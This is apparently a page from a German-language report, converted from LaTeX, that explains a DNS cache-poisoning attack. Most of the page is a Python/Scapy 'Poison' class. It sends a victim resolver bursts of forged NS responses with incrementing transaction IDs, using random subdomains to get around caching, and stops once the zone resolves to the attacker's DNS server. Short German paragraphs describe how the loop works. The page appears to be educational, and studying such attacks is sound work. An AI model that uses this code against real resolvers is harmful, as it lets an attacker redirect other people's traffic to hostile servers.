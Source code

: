 \documentclass[10pt,a4paper]{article}
\begin{document}
Die Funktion erhält mehrere Parameter, insbesondere die Transaktions-ID welche die Nachricht erhalten soll. Mit ihrer Hilfe werden zunächst alle möglichen Antworten generiert, die dann gebündelt zum Server gesandt werden können.
\begin{center}
\begin{lstlisting}
class Poison(Thread):
    def __init__(self, response_amount, known_ns_domain, known_ns_ip, offset):
        self.response_amount = response_amount
        self.known_ns_domain = known_ns_domain
        self.known_ns_ip = known_ns_ip
        self.running = True
        self.offset = offset
        super(Poison, self).__init__()

    def run(self):
        counter = 0
        id = random.randrange(2 ** 16)

        while self.running:
            target_domain = "www{}{}{}".format(counter, self.offset, victim_host_base)
            counter += 1

            packet_list = [Ether() / a_request(target_domain)]

            for i in range(self.response_amount):
                packet_list.append(
                    forged_ns_response(
                        (id + i) % (2 ** 16),
                        target_domain,
                        self.known_ns_domain,
                        self.known_ns_ip
                    )
                )
            id = (id + self.response_amount) % (2 ** 16)

            print("Sending packets from {} with id in interval [{:#x}, {:#x}] to {}"
                  .format(self.known_ns_ip, id, id + self.response_amount, victim_dns_ip))
            print("Chance of success: 1-(1-{:d}/65536)**{:d} = {:.2f}".format(self.response_amount,
             counter, 1 - pow((1 - self.response_amount / 65536.), counter)))

            sendpfast(packet_list, pps=100000, iface="eth1", verbose=0)

            ns_response = sr1(a_request(self.known_ns_domain), verbose=0)

            if ns_response[DNS].an.rdata == attacker_dns_ip:
                print("Successfully poisoned the zone of {}".format(victim_host_base))
                break
            else:
                print("Poisoning failed")
\end{lstlisting}
\end{center}
Die Klasse Poison Führt den eigentlichen Angriff in einer Endlosschleife durch.
Bei jedem Schleifendurchlauf wird eine zufällige Subdomain gewählt, um das Caching zu umgehen. Es werden response\_amount viele Pakete generiert werden, wobei die erste Transaction-ID wird zufällig gewählt wird. Die Transaction-ID wird bei jedem Paket Inkrementiert.
\end{document}
